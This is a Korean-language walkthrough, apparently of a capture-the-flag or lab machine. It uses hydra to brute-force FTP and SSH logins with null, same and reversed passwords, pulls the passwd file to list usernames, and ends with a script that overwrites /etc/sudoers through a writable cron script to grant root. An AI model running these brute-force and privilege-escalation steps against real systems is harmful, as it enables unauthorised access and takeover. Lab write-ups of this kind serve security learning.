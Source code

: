 ### Password Cracking
```shell
hydra -l elly -e nsr ftp://target
```
- `-e nsr`옵션은 로그인 시 null, same, reverse, 즉 패스워드를 입력하지 않거나 유저네임과 같은 패스워드, 유저네임을 거꾸로한 패스워드를 입력 시도해보는 옵션입니다.

```shell
[Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-14 13:54:16
[WARNING] Restorefile
```
- `elly` 유저의 패스워드는 `ylle`임을 알 수 있었습니다.

```shell
ftp target
Name (target:kali): elly
331 Please specify the password.
Password: 
230 Login successful.
```
- 로그인을 시도한 이후 passwd 파일을 가져옵니다.

```shell
cat passwd | awk -F: '{print $1}' > usernames.txt
```
- passwd 파일에서 유저네임만 추출합니다.

```shell
hydra -e nsr -L usernames.txt -t 4 ssh://target

...
[STATUS] 45.00 tries/min, 90 tries in 00:02h, 93 to do in 00:03h, 4 active
[22][ssh] host: target   login: SHayslett   password: SHayslett
[STATUS] 44.33 tries/min, 133 tries in 00:03h, 50 to do in 00:02h, 4 active
[STATUS] 45.50 tries/min, 182 tries in 00:04h, 1 to do in 00:01h, 4 active
1 of 1 target successfully completed, 1 valid password found
```
- 공격 대상 머신으로의 ssh `SHayslett:SHayslett` 계정 정보를 찾았습니다.

## Privilege Escalation

linpeas 스캔 결과 `/usr/local/sbin/cron-logrotate.sh `가 writable한 것을 확인했습니다.

```shell
vi evil.sh

#!/bin/bash
echo 'SHayslett ALL=(root) NOPASSWD: ALL' > /etc/sudoers

chmod +x evil.sh
```
